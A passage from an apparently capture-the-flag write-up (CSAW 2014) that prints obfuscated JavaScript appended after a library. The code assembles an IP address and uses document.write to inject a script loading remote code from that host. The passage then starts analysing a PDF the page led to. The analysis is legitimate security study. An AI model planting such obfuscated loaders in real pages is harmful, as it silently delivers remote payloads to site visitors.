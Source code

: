 ```javascript
			for (var b = b || i(a), c = b.frag.cloneNode(), d = 0, e = m(), h = e.length; d < h; d++) c.createElement(e[d]);
			return c
		}
	};
	l.html5 = e;
	q(f)
})(this, document);
var g = "ti";
var c = "HTML Tags";
var f = ". li colgroup br src datalist script option .";
f = f.split(" ");
c = "";
k = "/";
m = f[6];
for (var i = 0; i < f.length; i++) {
	c += f[i].length.toString();
}
v = f[0];
x = "\ 'ht";
b = f[4];
f = 2541 * 6 - 35 + 46 + 12 - 15269;
c += f.toString();
f = (56 + 31 + 68 * 65 + 41 - 548) / 4000 - 1;
c += f.toString();
f = "";
c = c.split("");
var w = 0;
u = "s";
for (var i = 0; i < c.length; i++) {
	if (((i == 3 || i == 6) && w != 2) || ((i == 8) && w == 2)) {
		f += String.fromCharCode(46);
		w++;
	}
	f += c[i];
}
i = k + "anal";
document.write("<" + m + " " + b + "=" + x + "tp:" + k + k + f + i + "y" + g + "c" + u + v + "j" + u + "\ '>\ </" + m + "\ >");
```

_Note: We had to insert a few spaces in places (line 101 & 119) to fix a few rendering issues._

The purpose of this javascript was to redirect the user to the following URL

	http://128.238.66.100/announcement.pdf

upon execution.

The PDF, when opened into a viewer looked as follow:

{% img center /images/2014/csaw/fluffynomore/pdf.png %}

and at a first look it looked just like an image of a wizard with text on it.
